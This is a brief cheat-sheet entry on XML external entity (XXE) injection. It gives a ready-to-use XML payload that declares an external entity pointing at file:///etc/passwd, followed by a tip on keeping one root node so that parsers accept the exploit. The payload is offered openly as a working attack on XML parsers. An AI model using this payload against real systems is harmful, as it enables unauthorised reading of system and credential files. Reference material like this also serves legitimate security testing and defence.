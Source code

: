 # XXE

```markup
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<Content>&xxe;</Content>
</root>
```

Ensure that regardless of the format of your xml files, that there is only one root node.  Several parsers will refuse to validate the file and will error in the event of multiple root nodes.  As with all exploits, this isn't always the case, but if your exploit fails, this would be a good thing to ensure.

